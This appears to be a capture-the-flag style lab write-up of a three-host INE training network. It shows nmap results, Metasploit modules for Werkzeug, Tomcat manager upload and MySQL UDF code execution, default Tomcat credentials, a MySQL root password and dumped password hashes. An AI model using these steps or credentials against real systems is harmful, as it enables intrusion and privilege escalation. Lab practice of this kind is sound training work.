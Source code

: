  server1.ine.local (192.174.120.3)                                        

server2.ine.local (192.174.120.4)                         

server3.ine.local 192.174.120.5

Nmap 7.92 scan initiated Thu Nov 24 20:42:42 2022 as: nmap -sC -sV -v -oA scan 192.174.120.3-5
Nmap scan report for server1.ine.local (192.174.120.3)


80/tcp open  http    Werkzeug httpd 0.9.6 (Python 2.7.13)

|_http-server-header: Werkzeug/0.9.6 Python/2.7.13
MAC Address: 02:42:C0:AE:78:03 (Unknown)

server2.ine.local (192.174.120.4)
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1


Nmap scan report for server3.ine.local (192.174.120.5)

22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1


# Server1.ine.local
server using Werkzeug there is a known CVE for this service on metasploit
running metasploit 
and we got a shell back
![[Pasted image 20221124172343.png]]
![[Pasted image 20221124172358.png]]
we are in as root and get the flag

running post exploit module 
post/linux/gather/enum_users_history
![[Pasted image 20221124181622.png]]
found
```bash
/root/.msf4/loot/20221124214618_default_192.174.120.3_linux.enum.users_570773.txt


```
![[Pasted image 20221124181840.png]]


# Server3.ine.local
Server is running tomcat
trying default tomcat creds
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
and tomcat:s3cret is a success 
now we can use metasploit module exploit/multi/http/tomcat_mgr_upload
to get a shell on the server


```ruby

use exploit/multi/http/tomcat_mgr_upload

set HttpPassword s3cret
set HttpUsername tomcat
set lport eth1
set rhosts server3.ine.local

```



![[Pasted image 20221124173009.png]]
![[Pasted image 20221124173635.png]]

now we can try to priv esc

inside tomcats directory we found a zipped conf file
and user creds

![[Pasted image 20221124183944.png]]

sudo -l 
![[Pasted image 20221124185059.png]]
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
using this blog we can priv esc our way to root


# Server2.ine.local

mysql -h 192.174.120.4 -u root -pfArFLP29UySm4bZj
![[Pasted image 20221124181932.png]]
![[Pasted image 20221124182125.png]]
```
root:*33E1596219194808AFC67BCEA0F5195B86ABAA48
filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
debian-sys-maint:*75916EC266546FFAF6976B0EF6C2FCB64EC0EFD3
```
running metasploit module to get RCE on the target 
```
use exploit/multi/mysql/mysql_udf_payload
set target 1
```
![[Pasted image 20221124183110.png]]
and get the flag